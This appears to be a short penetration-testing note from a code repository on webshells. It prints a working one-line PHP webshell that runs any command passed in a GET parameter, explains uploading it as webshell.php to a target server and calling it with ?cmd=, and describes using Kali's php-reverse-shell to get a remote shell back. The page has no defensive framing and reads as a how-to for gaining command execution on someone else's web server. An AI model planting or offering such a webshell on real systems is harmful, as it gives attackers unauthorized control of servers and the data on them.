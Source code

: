 # Webshell

When you can't get a direct reverse/bind shell on the target, maybe the web server can do 
the work for you!


Simple webshell that takes the GET parameter and runs it as a command:

<?php
    echo system($_GET["cmd"]);
?>

should be uploaded as a .php (like webshell.php) file on a PHP server. 
Now once uploaded use a GET request to the webshell.php like so:

...whatever/webshell.php?cmd=ls
and see what happens!


Or we can use a reverse shell by injecting first php code into the webapplication:
(You can get a bunch of webshells with the 'webshells' command on Kali),
then you upload the php code with the reverse shell on the website, then you do a 
GET request on that php code and, if you are listening on the correct port, you will 
get back a shell! Not as root probably, but still!

I used php-reverse-shell in webshells on Kali!

